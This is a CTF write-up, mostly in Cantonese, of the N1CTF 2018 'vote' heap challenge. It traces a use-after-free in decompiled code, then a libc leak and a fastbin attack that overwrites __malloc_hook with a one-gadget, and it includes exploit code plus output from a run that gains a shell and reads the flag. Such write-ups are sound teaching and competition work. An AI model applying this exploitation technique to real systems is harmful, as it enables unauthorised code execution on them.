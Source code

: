 # vote 250(pwn)

題目:

>hk node: nc 47.90.103.10 6000
>
>cn node: nc 47.97.190.1 6000
>
>(Two challenge servers are identical, use either of them.)
>
>[Download](b8a4590d-9fee-4a34-8396-d63adac62a0d.zip)


menu:
```
0: Create
1: Show
2: Vote
3: Result
4: Cancel
5: Exit
Action: 
```

呢條係經典嘅 use-after-free 題目

Create 嘅 code:

```C++
void sub_400D2C()
{
...........
for ( i = 0; i <= 15; ++i )
  {
    if ( !*(&ptr + i) )
    {
      sub_400C52(4199328LL);
      v2 = sub_400C90(4199328LL);
      if ( v2 > 0 && v2 <= 4096 )
      {
        v0 = malloc(v2 + 16);
        *(_QWORD *)v0 = 0LL;
..............
}
```

Cancel 嘅 code:

```C++
void sub_40109D()
{
  char *v0; // rsi@8
  int v1; // [sp+Ch] [bp-4h]@1

  sub_400C52("Please enter the index: ");
  v1 = sub_400C90("Please enter the index: ");
  if ( v1 >= 0 && v1 <= 15 && *(&ptr + v1) )
  {
    if ( --qword_602180[v1] == --*(_QWORD *)*(&ptr + v1) )
    {
      if ( qword_602180[v1] < 0 )
        free(*(&ptr + v1));
    }
    else if ( qword_602180[v1] < 0 )
    {
      v0 = (char *)*(&ptr + dword_602160) + 16;
      printf("%s", v0);
      fflush(stdout);
      sub_400C00(" has freed", v0);
      free(*(&ptr + v1));
      *(&ptr + v1) = 0LL;
    }
  }
}
```

個bug就係free 之後冇清返ptr array 相應entry做0,引致UAF

有一個注意位就係,如果我request 0x20 name size, 實際會return 0x40 嘅object(冇睇清楚ida code嘅後果.........) 

之後就係基本套路 leak libc-> fastbin attack -> get shell


不過由於冇得直接edit, 所以有好多error chk 要bypass .....


當leak完 libc, triger consolidation之後, malloc 一個大少少嘅chunk 覆蓋晒之前個d chunk 嘅address

之後再寫假嘅meta data 去上一手memory address 相應嘅位置 (error chk bypass eg 前後位size 要match  )

再free 返chunk 0 防止再malloc 個陣triger heap inside freed heap error 



之後malloc一個0x50(0x70) 拎左最頂塊chunk,再malloc 一個0x50(0x70) fastbin 就可以有arbitary writing...

```python
create("qqqq",0x50)
create("A"*3+p64(rce)*4,0x50)
print "[+]get shell :)"
r.sendline("0")
sleep(1)
#triger one gadget
r.sendline("4000")
r.sendline("$0")
r.sendline("ls -al")
r.interactive()
```

Contest 個陣唔知點解local libc 會有size error, 於是加左個for loop 令個malloc_hook layout valid返...

可能之前打錯左size 掛??



```python
#just to make the structure around main_arena "align"
#to bypass the malloc checking
#for i in range(1,11):
#    create("QQQQ",0x10*i)

````

solution: [solve.py](solve.py)

```
# [*] '/root/Desktop/CTF_Game/n1ctf_2018/vote/libc-2.23.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Paused (press any to continue)
# 139870119717752

# 0x7f360ccceb78
# leaked libc =0x7f360c90a000
# malloc_hook = 0x7f360ccceb10
# one = 0x7f360c9fa274
# [+]get shell :)
# [*] Switching to interactive mode
# Please enter the name's size: total 36
# dr-xr-xr-x 2 pwn  pwn   4096 Mar 10 18:38 .
# drwxr-xr-x 3 root root  4096 Mar  8 15:28 ..
# -rw-r--r-- 1 pwn  pwn    220 Mar  8 15:28 .bash_logout
# -rw-r--r-- 1 pwn  pwn   3771 Mar  8 15:28 .bashrc
# -rw-r--r-- 1 pwn  pwn    655 Mar  8 15:28 .profile
# -rw-r--r-- 1 root root    26 Mar  9 11:12 flag
# -rwxr-xr-x 1 root root 10544 Mar  8 15:29 vote
# $ cat flag
# N1CTF{Pr1nTf_2333333333!}
# $  

```
